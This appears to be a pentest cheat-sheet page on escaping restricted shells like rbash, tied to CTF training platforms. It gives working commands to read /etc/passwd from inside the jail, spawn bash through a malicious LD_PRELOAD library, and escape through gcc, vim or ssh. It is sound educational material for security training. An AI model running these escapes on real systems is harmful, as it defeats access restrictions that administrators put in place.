 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that honor `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>